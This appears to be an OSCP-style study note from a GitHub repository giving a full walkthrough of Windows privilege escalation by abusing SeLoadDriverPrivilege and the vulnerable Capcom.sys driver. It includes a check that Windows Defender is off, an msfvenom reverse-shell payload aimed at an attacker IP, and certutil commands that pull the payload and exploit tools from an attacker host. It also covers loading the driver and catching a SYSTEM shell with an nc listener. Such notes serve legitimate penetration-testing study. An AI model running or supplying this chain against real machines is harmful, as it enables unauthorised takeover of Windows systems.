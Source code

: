 #### References 

https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/

#### Conditions

- version < Windows 10 20H2 (Build 19042)
- Windows Defender non-active
- in ```Print Operators``` group ```(whoami /groups)```
- SeLoadDriverPrivilege ```(whoami/priv)```

checking if Windows Defender is active

```powershell
# Disabled:1
get-item 'hklm:\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection\'
```

#### Steps

create reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f exe -o rev.exe
```

download Capcom.sys

```
https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
```

download eoploaddriver.cpp and compile

```
https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp
```

create a new project (Visual Studio 2022 Community Edition)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_1.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_2.png)

change project name ```eoploaddriver```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_3.png)

copy and paste the contents of the ```eoploaddriver.cpp``` file and comment out line 6 ```#include "stdafx.h"```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_4.png)

configure project to target platforms

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_5.png)

build project

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_6.png)

executable file default location

```
C:\Users\<user>\source\repos\eoploaddriver\x64\Release
```

download ExploitCapcom project and compile

```
https://github.com/tandasat/ExploitCapcom
```

Execute original file will pop up an additional window. The code must be modified to run the reverse shell payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_7.png)


upload the files we need on the target

```
certutil -urlcache -split -f "http://<attcker ip>/Capcom.sys" "C:\Windows\Temp\Capcom.sys"
certutil -urlcache -split -f "http://<attcker ip>/eoploaddriver.exe" "C:\Windows\Temp\eoploaddriver.exe"
certutil -urlcache -split -f "http://<attcker ip>/ExploitCapcom.exe" "C:\Windows\Temp\ExploitCapcom.exe"
certutil -urlcache -split -f "http://<attcker ip>/rev.exe" "C:\Windows\Temp\rev.exe"
```

execute the ```eoploaddriver.exe``` on the target (Note that Capcom.sys must specify the full path)

```
C:\Windows\Temp\eoploaddriver.exe System\CurrentControlSet\dfserv C:\Windows\Temp\Capcom.sys
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_8.png)

start listening

```
sudo nc -nlvp 80
```

execute the ```ExploitCapcom.exe``` 

```
C:\Windows\Temp\ExploitCapcom.exe
```

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_9.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Pic/Windows/Privilege/EoPLoadDriver_20220724_10.png)